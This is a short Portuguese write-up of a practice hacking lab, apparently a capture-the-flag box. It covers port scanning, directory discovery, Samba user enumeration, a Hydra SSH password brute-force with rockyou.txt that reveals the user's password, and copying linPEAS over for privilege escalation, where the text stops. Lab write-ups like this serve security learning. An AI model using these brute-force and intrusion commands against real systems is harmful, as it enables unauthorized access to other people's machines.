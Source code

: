 IP alvo: 10.10.58.148

Versão do Apache da WEB: Apache/2.4.18 (Ubuntu) Server at 10.10.58.148 Port 80
 
Portas abertas:
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13?
8080/tcp open  http-proxy

Usando dirb no IP do alvo, descobrimos um diretório http://10.10.58.148/development/ no qual tem informações importantes

Dentro do diretório tem um arquivo dev.txt com o seguinte texto:

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J

Outro arquivo J.txt foi encontrado:

For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K

Utilizando a ferramenta enum4linux, foi feita a enumeração de informações de sistema Windows e Samba
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
Descobrimos dois usuários: Kay e Jan

Utilizando Hydra, realizamos um ataque de bruteforce para o password de Jan para acessar via SSH o serviço
Wordlist utilizada: rockyou.txt
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.58.148
[22][ssh] host: 10.10.58.148   login: jan   password: armando
Senha de Jan: armando

Com este user e senha, podemos acessar via SSH a máquina. ssh jan@10.10.58.148

Utilizando a ferramenta lianPEAS, podemos escalar previlégios no sistema.
foi passado o lianpeas via scp {scp /home/kali/hacking_tools/linpeas.sh jan@.10.10.58.148}
                                                                                                
